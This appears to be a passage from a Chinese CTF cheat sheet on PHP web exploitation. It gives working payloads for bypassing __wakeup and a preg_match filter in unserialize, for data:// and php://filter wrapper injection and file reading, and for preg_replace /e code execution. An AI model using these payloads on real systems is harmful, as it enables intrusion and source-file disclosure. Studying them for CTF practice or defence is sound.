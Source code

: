 #### 绕过wakeup

序列化后的值为`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`，变为`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`可绕过__wakeup方法。

#### 绕过preg_match

```php
if (preg_match('/[oc]:\d+:/i', $var)) { 
    die('stop hacking!'); 
} else {
    @unserialize($var); 
} 
//"O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"  会被拦截
//"O:+4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}" 可以绕过preg_match
```

### 伪协议

#### php://input

php://input是用来接收post数据的。

#### data://

```
data://text/plain,<?php phpinfo()?>

data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

data:text/plain,<?php phpinfo()?>

data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

#### data://filter

```
php://filter/read=convert.base64-encode/resource=[文件路径]
```

### 函数漏洞

#### preg_replace

preg_replace漏洞触发有两个前提：

01：第一个参数需要e标识符，有了它可以执行第二个参数的命令

02：第一个参数需要在第三个参数中的中有匹配，不然echo会返回第三个参数而不执行命令，举个例子：

```
//echo preg_replace('/test/e', 'phpinfo()', 'just test');
//这样是可以执行命令的

//echo preg_replace('/test/e', 'phpinfo()', 'just tesxt'); 
//echo preg_replace('/tesxt/e', 'phpinfo()', 'just test'); 
//这两种没有匹配上，所以返回值是第三个参数，不能执行命令
```
